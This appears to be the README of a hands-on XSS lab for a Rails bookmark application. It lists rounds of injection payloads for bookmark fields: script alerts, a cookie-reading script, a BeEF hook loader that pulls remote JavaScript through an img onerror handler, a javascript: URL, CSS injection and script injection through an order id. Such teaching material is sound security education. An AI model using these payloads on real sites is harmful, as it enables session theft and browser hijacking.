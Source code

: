 # XSS hands-on with Rails application

## Install

- Install dependencies

```console
bundle install
```

- Create SQLite database

```console
rails db:migrate
```

# Run

```console
rails server
```

## Hack


### Round 1: HTML tags

- Add a bookmark with html tags in comment:

- Title: 

```
OWASP Cheat Sheet Series
```

- Link

```
https://cheatsheetseries.owasp.org
```

- Comment

```
The <b>OWASP Cheat Sheet Series</b> was created to provide a concise collection of high value information on specific application security topics.
```

What happened ? and why ?


### Round 2: Alert

Add a bookmark with script tags in comment:

```
<script>alert(`XSS`)</script>
```

What happened ? and why ?

### Round 3: Cookie :fearful:

Add a bookmark with script tags in comment to get session cookie

```
<script>alert(document.cookie)</script>
```

### Round 4: Beef :scream:

```
<img src=1 href=1 onerror="javascript: (function () { var url = 'http://127.0.0.1:4000/hook.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();" />
```

### Round 4: URL

Add a bookmark with javascript in link field:

```
javascript:alert('XSS')
```

this link will be well encoded to prevent XSS:

```
<a href="javascript:alert(&#39;XSS&#39;)">javascript:alert(&#39;XSS&#39;)</a>
```

What happened if you click in the link ? and why ?


### Round 5: CSS

Add a bookmark with CSS in color fiels to load an image:

```
red; background: url(https://http.cat/200)
```

What happened ? and why ?


### Round 6: javascript

Add a bookmark with the following order id:

```
22; alert(1);
```

What happened ? and why ?